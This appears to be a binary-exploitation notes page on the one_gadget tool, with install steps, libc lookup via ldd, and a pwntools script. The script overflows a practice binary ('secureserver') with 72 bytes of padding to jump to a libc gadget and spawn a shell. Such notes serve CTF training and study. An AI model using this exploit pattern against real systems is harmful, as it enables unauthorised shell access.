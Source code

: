 ```yaml
---
description: 08/25/2023
---
```


# ONE\_GADGET

{% embed url="https://github.com/david942j/one_gadget" %}

## Installation

Install `ruby-rubygems` if you don't already have it:

```
sudo apt install ruby-rubygems
```

Install `one_gadget`:

```
gem install one_gadget
```

## Usage

Find `libc` library:

```
ldd <binary>

 linux-vdso.so.1 (0x00007ffd3f71f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7029d40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7029f74000)
```

`libc` library:

```
/lib/x86_64-linux-gnu/libc.so.6
```

Using one\_gadget:

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We end up getting a few offsets to work with</p></figcaption></figure>

So, `libc base + offset`

This will be enough to get a shell under certain restraints.

You can take a look in the registers at the time of execution in `gdb` and see if the restraints are met and if not, you will not have success.

This script will help you with this, you will see the `libc` location and the offset being added to it of the gadget:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401179
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

# Payload to spawn shell
payload = flat(
    asm('nop') * padding,
    libc.address + 0xebcf8
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

You can see `libc.address + offset`.
